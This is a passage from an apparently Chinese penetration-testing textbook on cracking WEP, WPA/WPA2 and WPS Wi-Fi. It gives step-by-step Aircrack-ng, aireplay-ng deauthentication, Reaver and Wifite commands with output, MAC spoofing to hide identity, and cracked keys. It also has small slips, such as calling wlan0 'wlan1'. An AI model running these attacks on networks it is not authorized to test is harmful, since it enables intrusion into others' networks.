9.2 使用Aircrack-ng工具破解无线网络
Aircrack-ng是一款基于破解无线802.11协议的WEP及WPA-PSK加密的工具。该工具主要用了两种攻击方式进行WEP破解。一种是FMS攻击，该攻击方式是以发现该WEP漏洞的研究人员名字（Scott Fluhrer、Itsik Mantin及Adi Shamir）所命名；另一种是Korek攻击，该攻击方式是通过统计进行攻击的，并且该攻击的效率要远高于FMS攻击。本节将介绍使用Aircrack-ng破解无线网络。
9.2.1 破解WEP加密的无线网络
Wired Equivalent Privacy或WEP（有线等效加密）协议是对在两台设备间无线传输的数据进行加密的方式，用以防止非法用户窃听或侵入无线网络。不过密码分析学家已经找出WEP好几个弱点，因此在2003年被Wi-Fi Protected Access（WPA）淘汰，又在2004年由完整的IEEE 802.11i标准（又称为WPA2）所取代。本小节将介绍破解WEP加密的无线网络。
使用Aircrack破解使用WEP加密的无线网络。具体操作步骤如下所示。
（1）使用airmon-ng命令查看当前系统中的无线网络接口。执行命令如下所示：

输出的信息表示，当前系统中存在一个无线网络接口。从输出结果的Interface列，可以看到当前系统的无线接口为wlan0。
（2）修改wlan0接口的MAC地址。因为MAC地址标识主机所在的网络，修改主机的MAC地址可以隐藏真实的MAC地址。在修改MAC地址之前，需要停止该接口。执行命令如下所示：

或者：
root@kali:~# ifconfig wlan0 down
执行以上命令后，wlan0接口则停止。此时就可以修改MAC地址了，执行命令如下 所示：
root@kali:~# macchanger --mac 00:11:22:33:44:55 wlan0
Permanent MAC: 00:c1:40:76:05:6c (unknown)
Current MAC: 00:c1:40:76:05:6c (unknown)
New MAC: 00:11:22:33:44:55 (Cimsys Inc)
输出的信息显示了wlan0接口永久的MAC地址、当前的MAC地址及新的MAC地址。可以看到wlan1接口的MAC地址已经被修改。
（3）重新启动wlan0。执行命令如下所示：

输出的信息显示了无线网卡wlan0的芯片及驱动类型。例如，当前系统的无线网卡芯片为Ralink RT2870/3070；默认驱动为rt2800usb，并显示监听模式被启用，映射网络接口为mon0。
有时候使用airmon-ng start wlan0命令启用无线网卡时，可能会出现SIOCSIFFLAGS: Operation not possible due to RF-kill错误。这是因为Linux下有一个软件RF-kill，该软件为了省电会将不使用的无线设备（如WIFI和Buletooth）自动关闭。当用户使用这些设备时，RF-kill不会智能的自动打开，需要手动解锁。用户可以执行rfkill list命令查看所有设备，如下所示：
root@kali:~# rfkill list
0: ideapad_wlan: Wireless LAN
Soft blocked: yes
Hard blocked: no
1: phy0: Wireless LAN
Soft blocked: yes
Hard blocked: no
该列表中前面的编号，表示的是设备的索引号。用户可以通过指定索引号，停止或启用某个设备。如启用所有设备，执行如下所示的命令：
root@kali:~# rfkill unblock all
执行以上命令后，没有任何信息输出。以上命令表示，解除所有被关闭的设备。
（4）使用airodump命令定位附近所有可用的无线网络。执行命令如下所示：

以上输出的信息显示了附近所有可用的无线网络。当找到用户想要攻击的无线路由器时，按下Ctrl+C键停止搜索。
从输出的信息中看到有很多参数。详细介绍如下所示。
- BSSID：无线的IP地址。
- PWR：网卡报告的信号水平。
- Beacons：无线发出的通告编号。
Data：被捕获到的数据分组的数量，包括广播分组。
/s：过去10秒钟内每秒捕获数据分组的数量。
- CH：信道号（从Beacons中获取）。
- MB：无线所支持的最大速率。如果MB=11，它是802.11b；如果MB=22，它是802.11b+；如果更高就是802.11g。后面的点（高于54之后）表明支持短前导码。
- ENC：使用的加密算法体系。OPN表示无加密。WEP？表示WEP或者WPA/WPA2模式，WEP（没有问号）表示静态或动态WEP。如果出现TKIP或CCMP，那么就是WPA/WPA2。
- CIPHER：检测到的加密算法，是CCMP、WRAAP、TKIP、WEP和WEP104中的一个。典型的来说（不一定），TKIP与WPA结合使用，CCMP与WPA2结合使用。如果密钥索引值大于0，显示为WEP40。标准情况下，索引0-3是40bit，104bit应该是0。
- AUTH：使用的认证协议。常用的有MGT（WPA/WPA2使用独立的认证服务器，平时我们常说的802.1x、radius和eap等）、SKA（WEP的共享密钥）、PSK（WPA/WPA2的预共享密钥）或者OPN（WEP开放式）。
- ESSID：指所谓的SSID号。如果启用隐藏的SSID的话，它可以为空。这种情况下，airodump-ng试图从proberesponses和associationrequests中获取SSID。
- STATION：客户端的MAC地址，包括连上的和想要搜索无线来连接的客户端。如果客户端没有连接上，就在BSSID下显示“notassociated”。
- Rate：表示传输率。
- Lost：在过去10秒钟内丢失的数据分组，基于序列号检测。它意味着从客户端来的数据丢包，每个非管理帧中都有一个序列号字段，把刚接收到的那个帧中的序列号和前一个帧中的序列号一减就能知道丢了几个包。
- Frames：客户端发送的数据分组数量。
- Probe：被客户端查探的ESSID。如果客户端正试图连接一个无线，但是没有连接上，那么就显示在这里。
（5）使用airodump-ng捕获指定BSSID的文件。执行命令如下所示。
airodump-ng命令常用的选项如下所示。
- -c：指定选择的频道。
- -w：指定一个文件名，用于保存捕获的数据。
- -bssid：指定攻击的BSSID。
下面将Bssid为14:E6:E4:AC:FB:20的无线路由器作为攻击目标。执行命令如下所示：

从输出的信息中可以看到ESSID为Test无线路由器的#Data一直在变化，表示有客户端正与无线发生数据交换。以上命令执行成功后，会生成一个名为wirelessattack-01.ivs的文件，而不是wirelessattack.ivs。这是因为airodump-ng工具为了方便后面破解的时候调用，所有对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推。在进行第二次攻击时，若使用同样文件名wirelessattack保存的话，就会生成名为wirelessattack-02.ivs文件。
（6）打开一个新的终端窗口，运行aireplay命令。aireplay命令的语法格式如下所示：
aireplay-ng -1 0 -a [BSSID] -h [our Chosen MAC address] -e [ESSID] [Interface]
aireplay-ng -dauth 1 -a [BSSID] -c [our Chosen MAC address] [Interface]
启动aireplay，执行命令如下所示：
root@kali:~# aireplay-ng -1 0 -a 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 -e Test mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
ifconfig mon0 hw ether 00:11:22:33:44:55
17:25:17 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:25:17 Sending Authentication Request (Open System) [ACK]
17:25:17 Switching to shared key authentication
17:25:19 Sending Authentication Request (Shared Key) [ACK]
17:25:19 Switching to shared key authentication
17:25:21 Sending Authentication Request (Shared Key) [ACK]
17:25:21 Switching to shared key authentication
17:25:23 Sending Authentication Request (Shared Key) [ACK]
17:25:23 Switching to shared key authentication
17:25:25 Sending Authentication Request (Shared Key) [ACK]
17:25:25 Switching to shared key authentication
17:25:27 Sending Authentication Request (Shared Key) [ACK]
17:25:27 Switching to shared key authentication
17:25:29 Sending Authentication Request (Shared Key) [ACK]
17:25:29 Switching to shared key authentication
（7）使用aireplay发送一些流量给无线路由器，以至于能够捕获到数据。语法格式如下所示：
aireplay-ng 3 -b [BSSID] -h [Our chosen MAC address] [Interface]
执行命令如下所示：
root@kali:~# aireplay-ng -3 -b 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
ifconfig mon0 hw ether 00:11:22:33:44:55
17:26:54 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
Saving ARP requests in replay_arp-0515-172654.cap
You should also start airodump-ng to capture replies.
Notice: got a deauth/disassoc packet. Is the source MAC associated ?
Read 1259 packets (got 1 ARP requests and 189 ACKs), sent 198 packets…(499 pps
Read 1547 packets (got 1 ARP requests and 235 ACKs), sent 248 packets…(499 pps
Read 1843 packets (got 1 ARP requests and 285 ACKs), sent 298 packets…(499 pps
Read 2150 packets (got 1 ARP requests and 333 ACKs), sent 348 packets…(499 pps
Read 2446 packets (got 1 ARP requests and 381 ACKs), sent 398 packets…(499 pps
Read 2753 packets (got 1 ARP requests and 430 ACKs), sent 449 packets…(500 pps
Read 3058 packets (got 1 ARP requests and 476 ACKs), sent 499 packets…(500 pps
Read 3367 packets (got 1 ARP requests and 525 ACKs), sent 548 packets…(499 pps
Read 3687 packets (got 1 ARP requests and 576 ACKs), sent 598 packets…(499 pps
Read 4001 packets (got 1 ARP requests and 626 ACKs), sent 649 packets…(500 pps
Read 4312 packets (got 1 ARP requests and 674 ACKs), sent 699 packets…(500 pps
Read 4622 packets (got 1 ARP requests and 719 ACKs), sent 749 packets…(500 pps
Read 4929 packets (got 1 ARP requests and 768 ACKs), sent 798 packets…(499 pps
Read 5239 packets (got 1 ARP requests and 817 ACKs), sent 848 packets…(499 pps
输出的信息就是使用ARP Requests的方式来读取ARP请求报文的过程，此时回到airodump-ng界面查看，可以看到Test的Frames栏的数字在飞速的递增。在抓取的无线数据报文达到了一定数量后，一般都是指IVsX值达到2万以上时，就可以开始破解，若不能成功就等待数据包文继续抓取，然后多尝试几次。
（8）使用Aircrack破解密码。执行命令如下所示：

从输出的结果中可以看到KEY FOUND，表示密码已经找到，为abcde。
9.2.2 破解WPA/WPA2无线网络
WPA全名为Wi-Fi Protected Access，有WPA和WPA2两个标准。它是一种保护无线电脑网络安全的协议。对于启用WPA/WPA2加密的无线网络，其攻击和破解步骤及攻击是完全一样的。不同的是，在使用airodump-ng进行无线探测的界面上，会提示为WPA CCMP PSK。当使用aireplay-ng进行攻击后，同样获取到WPA握手数据包及提示；在破解时需要提供一个密码字典。下面将介绍破解WPA/WPA2无线网络的方法。
使用aircrack-ng破解WPA/WPA2无线网络的具体操作步骤如下所示。
（1）查看无线网络接口。执行命令如下所示：

（2）停止无线网络接口。执行命令如下所示：

（3）修改无线网卡MAC地址。执行命令如下所示：
root@kali:~# macchanger --mac 00:11:22:33:44:55 wlan0
Permanent MAC: 00:c1:40:76:05:6c (unknown)
Current MAC: 00:c1:40:76:05:6c (unknown)
New MAC: 00:11:22:33:44:55 (Cimsys Inc)
（4）启用无线网络接口。执行命令如下所示：

（5）捕获数据包。执行命令如下所示：

（6）对无线路由器Test进行Deauth攻击。执行命令如下所示：
root@kali:~# aireplay-ng --deauth 1 -a 14:E6:E4:AC:FB:20 -c 00:11:22:33: 44:55 mon0
17:50:27 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:50:30 Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55] [12|59 ACKs]
（7）破解密码。执行命令如下所示：

从输出的信息中可以看到无线路由器的密码已经成功破解。在KEY FOUND提示的右侧可以看到密码已被破解出，为daxueba，破解速度约为500.88 k/s。
9.2.3 攻击WPS（Wi-Fi Proteced Setup）
WPS是由Wi-Fi联盟所推出的全新Wi-Fi安全防护设定标准。该标准主要是为了解决无线网络加密认证设定的步骤过于繁杂的弊病。因为通常用户往往会因为设置步骤太麻烦，以至于不做任何加密安全设定，从而引起许多安全上的问题。所以很多人使用WPS设置无线设备，可以通过个人识别码（PIN）或按钮（PBC）取代输入一个很长的密码短语。当开启该功能后，攻击者就可以使用暴力攻击的方法来攻击WPS。本小节将介绍使用各种工具攻击WPS。
现在大部分路由器上都支持WPS功能。以前路由器有专门的WPS设置，现在的路由器使用QSS功能取代了。这里以TP-LINK型号为例，介绍设置WPS功能，如图9.15所示。如果使用WPS的PBC方式，只需要按下路由器上的QSS/RESET按钮就可以了。

图9.15 设置WPS
从该界面可以看到QSS功能已开启，可以看到当前的PIN码是04588306。这里可以重新生成新的PIN码，或者恢复初始PIN码。
【实例9-1】使用Reaver破解WPS。具体操作步骤如下所示。
（1）插入无线网卡，使用ifconfig命令查看无线网卡是否已经正确插入。执行命令如下所示：
root@Kali:~# ifconfig
eth0 Link encap:Ethernet HWaddr 00:19:21:3f:c3:e5
inet addr:192.168.5.4 Bcast:192.168.5.255 Mask:255.255.255.0
inet6 addr: fe80::219:21ff:fe3f:c3e5/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:10541 errors:0 dropped:0 overruns:0 frame:0
TX packets:7160 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:4205470 (4.0 MiB) TX bytes:600691 (586.6 KiB)
lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 Metric:1
RX packets:296 errors:0 dropped:0 overruns:0 frame:0
TX packets:296 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:17760 (17.3 KiB) TX bytes:17760 (17.3 KiB)
从输出的信息中可以看到，只有一个以太网接口eth0。这是因为无线网卡可能没有启动，首先来启动该无线网卡。执行命令如下所示：
root@Kali:~# ifconfig wlan0 up
执行以上命令后，没有任何信息输出。此时再次执行ifconfig命令，查看无线网络是否已启动，如下所示：
root@Kali:~# ifconfig
......
wlan0 Link encap:Ethernet HWaddr 08:10:76:49:c3:cd
UP BROADCAST MULTICAST MTU:1500 Metric:1
RX packets:0 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)
看到以上输出信息，则表示无线网卡已成功启动，其网络接口为wlan0。
（2）启动无线网卡为监听模式。执行命令如下所示：

从输出的信息中，可以看到monitor mode enabled on mon0，表示无线网卡已启动监听模式。在以上信息中，还可以看到无线网卡的芯片级驱动类型。其中，该网卡的芯片为Ralink，默认驱动为rt2800usb。
注意：执行以上命令启动监听模式，一定要确定正确识别无线网卡的芯片和驱动。否则，该无线网卡可能导致攻击失败。
（3）攻击WPS。执行命令如下所示：
root@kali:~# reaver -i mon0 -b 14:E6:E4:AC:FB:20 -vv
Reaver v1.4 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@ tacnetsol.com>
[+] Waiting for beacon from 14:E6:E4:AC:FB:20
[+] Switching mon0 to channel 1
[+] Switching mon0 to channel 2
[+] Switching mon0 to channel 3
[+] Switching mon0 to channel 11
[+] Switching mon0 to channel 4
[+] Switching mon0 to channel 5
[+] Switching mon0 to channel 6
[+] Switching mon0 to channel 7
[+] Associated with 8C:21:0A:44:09:F8 (ESSID: yztxty)
[+] Trying pin 12345670
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received WSC NACK
[+] Sending WSC NACK
......
从以上输出信息中，可以看到正在等待连接到14:E6:E4:AC:FB:20无线路由器的信号。并且通过发送PIN信息，获取密码。
如果没有路由器没有开启WPS的话，将会出现如下所示的信息：
[!] WARNING: Failed to associate with 14:E6:E4:AC:FB:20 (ESSID: XXXX)
Fern WiFi Cracker是一个非常不错的工具，用来测试无线网络安全。后面将会介绍使用该工具，攻击Wi-Fi网络。这里首先介绍使用Fern WiFi Cracker工具来攻击WPS。
【实例9-2】使用Wifite攻击WPS。具体操作步骤如下所示。
（1）启动Wifite工具，并指定使用common.txt密码字典。在命令行终端执行如下所示的命令：
root@kali:~# wifite -dict common.txt
执行以上命令后，将显示如下所示的信息：

以上信息显示了WiFite工具的版本信息，支持平台，并且开始扫描无线网络。当扫描到想要破解的无线网络时，按下CTRL+C组合键停止扫描。
（2）停止扫描无线网络，将显示如下所示的信息：

从以上输出信息中，可以看到扫描到五个无线接入点和三个客户端。在输出信息中，共显示了7列。分别表示无线接入点编号、ESSID号、信道、加密方式、电功率、是否开启wps和客户端。如果仅有一个客户端连接到无线接入点，则CLIENT列显示是client。如果有多个客户端连接的话，则显示是clients。
（3）此时，选择要攻击的无线接入点。这里选择第五个无线接入点，输入“1”。然后按下回车键将开始攻击，显示信息如下所示：
[+] select target numbers (1-5) separated by commas, or 'all': 1
[+] 1 target selected.
[0:00:00] initializing WPS PIN attack on yzty (EC:17:2F:46:70:BA)
[0:11:00] WPS attack, 0/0 success/ttl,
[!] unable to complete successful try in 660 seconds
[+] skipping yzty
[0:08:20] starting wpa handshake capture on "yzty"
[0:08:11] new client found: 18:DC:56:F0:62:AF
[0:08:09] listening for handshake…
[0:00:11] handshake captured! saved as "hs/yzty_EC-17-2F-46-70-BA.cap"
[+] 2 attacks completed:
[+] 1/2 WPA attacks succeeded
yzty (EC:17:2F:46:70:BA) handshake captured
saved as hs/yzty_EC-17-2F-46-70-BA.cap
[+] starting WPA cracker on 1 handshake
[0:00:00] cracking yzty with aircrack-ng
[+] cracked yzty (EC:17:2F:46:70:BA)!
[+] key: "huolong5"
[+] quitting
从输出的信息中，可以看到破解出yzty无线设备的密码为huolong5。